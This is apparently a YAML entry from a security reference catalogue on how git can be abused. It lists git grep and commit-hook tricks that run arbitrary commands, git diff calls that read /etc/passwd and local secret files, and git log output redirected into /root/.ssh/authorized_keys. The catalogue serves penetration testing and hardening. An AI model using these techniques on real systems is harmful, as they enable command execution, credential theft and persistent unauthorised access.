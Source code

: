 ```yaml
---
description: Git is an extremely powerful tool with more functionality than one can count. This list is non-exhaustive, but includes examples which have historically been useful for exploitation.
functions:
  command:
    - description: The --open-files-in-pager argument can be used to run arbitrary commands.
      code: |
        git grep --open-files-in-pager='uname -a #' .
        git grep --open-files-in-pager='uname;' .
    - description: This method requires the git config advice.ignoredHook to be false (which it is not by default).
      code: |
        git commit -a -m 'exec /usr/bin/uname -a'
        git log --max-count=1 --pretty=format:"%s"  --output .git/hooks/pre-commit
        git commit --allow-empty -m x
  file-read:
    - description: `git diff` is commonly used to compare a single file to a different version of itself in history. The `--no-index` flag can be used to effectively turn `git diff` into normal `diff` against another file _within the git repository_ (but not necessarily tracked).
      code: |
        git diff --no-index local-secret-file.conf git.md
    - description: If you are reading a file outside of the git directory, you can use `git diff` against `/dev/null`.
      code: |
        git diff /dev/null /etc/passwd
  file-write:
    - description: Outputs the most recent changelog to an arbitrary file. Note that this also contains the commit information.
      code: |
        git log --max-count=1 --output=/root/.ssh/authorized_keys
    - description: Outputs the first line of the most recent commit message to an arbitrary file.
      code: |
        git log --max-count=1 --pretty=format:"%s" --output=/root/.ssh/authorized_keys
---
```

